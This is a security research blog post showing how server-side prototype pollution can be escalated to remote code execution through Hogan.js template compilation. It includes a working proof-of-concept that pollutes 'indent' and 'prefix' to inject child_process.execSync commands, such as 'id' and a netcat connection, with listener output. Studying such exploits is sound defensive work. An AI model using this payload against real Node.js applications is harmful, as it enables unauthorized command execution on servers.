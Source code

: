 ```yaml
---
title: RCE via Twitter Hogan.js
date: 2021-12-15
author: 1nt3rc3pt0r
author_url: https://twitter.com/_1nt3rc3pt0r_
categories:
 - Web Exploitation
 - Bug Bounty
tags:
 - Prototype Pollution
 - Hogan_js
---
```


**tl;dr**

+ Reversing Hogan.js
+ RCE - using Hogan-js
<!--more-->


## Introduction 

In this Blog i will be explaining how i gained RCE using [Twitter Hogan.js](https://github.com/twitter/hogan.js) when Prototype Pollution exists.

Few days back Michał Bentkowski released a server side prototype pollution [challenge](https://air-pollution.challenge.ctf.expert/)where RCE is required to get flag all we have is Prototype Pollution , which reminds me of [AST-Injection](https://blog.p6.is/AST-Injection/)

I started looking through the challenge and suddenly my eyes caught on Hogan.js which is used to compile the Mustache Templating language so I started looking into its source code.Even After checking them multiple times I couldn't  find any chains that helps to gain RCE as per the challenge.But yeah I found a few lines that could be useful to gain RCE apart from challenge.

In this blog I will be explaining how I was able to chain Prototype pollution to RCE via Hogan Js.
For those who need more information check this amazing Findings by [POSIX](https://blog.p6.is/AST-Injection/)


## Reversing Hogan.js

In short, Hogan.codegen in `compiler.js` is responsible for code generation depending on the cases and later , this generated code gets executed.

While going through each function and the way each builds the code by appending objects to Strings.Most of the objects where pre defined so Prototype Pollution is ineffective in such situations.


```javascript
Hogan.codegen = {
    '#': function(node, context) {
      context.code += 'if(t.s(t.' + chooseMethod(node.n) + '("' + esc(node.n) + '",c,p,1),' +
                      'c,p,0,' + node.i + ',' + node.end + ',"' + node.otag + " " + node.ctag + '")){' +
                      't.rs(c,p,' + 'function(c,p,t){';
      Hogan.walk(node.nodes, context);
      context.code += '});c.pop();}';
    },

    '^': function(node, context) {
      context.code += 'if(!t.s(t.' + chooseMethod(node.n) + '("' + esc(node.n) + '",c,p,1),c,p,1,0,0,"")){';
      Hogan.walk(node.nodes, context);
      context.code += '};';
    },

    '>': createPartial,
    '<': function(node, context) {
      var ctx = {partials: {}, code: '', subs: {}, inPartial: true};
      Hogan.walk(node.nodes, ctx);
      var template = context.partials[createPartial(node, context)];
      template.subs = ctx.subs;
      template.partials = ctx.partials;
    },

    '$': function(node, context) {
      var ctx = {subs: {}, code: '', partials: context.partials, prefix: node.n};
      Hogan.walk(node.nodes, ctx);
      context.subs[node.n] = ctx.code;
      if (!context.inPartial) {
        context.code += 't.sub("' + esc(node.n) + '",c,p,i);';
      }
    },

    '\n': function(node, context) {
      context.code += write('"\\n"' + (node.last ? '' : ' + i'));
    },

    '_v': function(node, context) {
      context.code += 't.b(t.v(t.' + chooseMethod(node.n) + '("' + esc(node.n) + '",c,p,0)));';
    },

    '_t': function(node, context) {
      context.code += write('"' + esc(node.text) + '"');
    },

    '{': tripleStache,

    '&': tripleStache
  }
```

But the function `createPartial` looks unsafe.When it comes to `context.prefix` and `node.indent` value is added if value exists else it keeps it as empty.


```javascript
function createPartial(node, context) {
    var prefix = "<" + (context.prefix || "");
    var sym = prefix + node.n + serialNo++;
    context.partials[sym] = {name: node.n, partials: {}};
    context.code += 't.b(t.rp("' +  esc(sym) + '",c,p,"' + (node.indent || '') + '"));';
    return sym;
  }
```


Yay!!! So Prototype Pollution can Pollute them but how is this function called by `Hogan.codegen` ?

In Hogan.js there is something called `tokens` which is used to generate codes. Token can be extracted by following way.


code
```javascript

var template = "my {{>example}} template.";
var tokens=hogan.scan(template)
console.log("tokens",tokens)

```


Output
```js
tokens [
  { tag: '_t', text: [String: 'my '] },
  { tag: '>', n: 'example', otag: '{{', ctag: '}}', i: 15 },
  { tag: '_t', text: [String: ' template.'] }
]

```

In tokens tags are used to call corresponding functions checking `Hogan.codegen` in this case tag : '>' calls `createPartial`.


## Code Execution

Now we have Prototype Pollution that Successfully pollutes the generated codes but creating a working Exploit was a bit challenging.When I debugged generated code I came to the conclusion that directly adding “ to break the generated code returns bad syntax and ends executing.So my idea was to use `console.log`

```javascript
console.log(\"));console.log(process.mainModule.require('child_process').execSync('id').toString())//\")
```

When `console.log("some string")` is used this ends as a function so no more bad syntax when Double quotes are used.
This is how the generated code looks like when it gets polluted with above exploit.

```javascript

t.b("my ");t.b(t.rp("<abcdexample0",c,p,"console.log("));console.log(process.mainModule.require('child_process').execSync('id').toString())//")"));t.b(" template.");

```


## POC

Code
```javascript
var hogan = require("hogan.js");

// construct template string
var template = "my {{>example}} template.";

//Prototype Pollution
constructor.prototype.indent="console.log(\"));console.log(process.mainModule.require('child_process').execSync('nc 127.0.0.1 1337'))//\")";
constructor.prototype.prefix="abcd";

var tokens=hogan.scan(template)
console.log("tokens",tokens)

// compile template
var compiled = hogan.compile(template);

console.log("compiled" , compiled)
var s = compiled.render({example: 'twitterer' })
console.log("renderd",s)

```



```
┌──(sbk㉿kali)-[/media/sbk/1n73rc3p70r_B10g]
└─$ nc -lvp 1337
listening on [any] 1337 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 59134

```

